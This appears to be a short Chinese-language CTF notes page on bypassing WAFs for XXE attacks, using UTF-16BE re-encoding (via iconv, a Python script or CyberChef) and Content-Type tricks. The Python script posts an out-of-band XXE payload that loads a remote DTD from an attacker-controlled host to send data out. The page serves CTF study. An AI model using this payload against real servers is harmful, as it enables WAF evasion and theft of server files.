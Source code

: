 ### UTF-16BE编码绕过
[Evil XML with Two Encodings](https://mohemiv.com/all/evil-xml/)
:::info
一个xml文档不仅可以用UTF-8编码，也可以用UTF-16(两个变体 - BE和LE)、UTF-32(四个变体 - BE、LE、2143、3412)和EBCDIC编码。<br />在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集
:::
#### 例题  [https://www.shawroot.cc/156.html](https://www.shawroot.cc/156.html)
#### 方法
方法1： 命令行转换
```powershell
cat 1.xml | iconv -f UTF-8 -t UTF-16BE > x16.xml
```
方法2： Python脚本
```python
import requests

url = 'http://url/'
payload = """<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://yourVPS/evil.dtd">
%remote;%int;%send;
]>
"""
payload = payload.encode('utf-16')
requests.post(url, data=payload)

/**
* 复制并使用代码请注明引用出处哦~
* Lazzaro @ https://lazzzaro.github.io
*/
```
方法3： Cyberchef<br />![image.png](./images/20231017_2356026619.png)
### Content-Type绕过
`Content-Type`头置为空或者改成json有时也可以绕过<br />[实战 | 记一次xxe漏洞的奇怪绕过](https://mp.weixin.qq.com/s/ufrM9IYX6JghvCIBx44tXg)

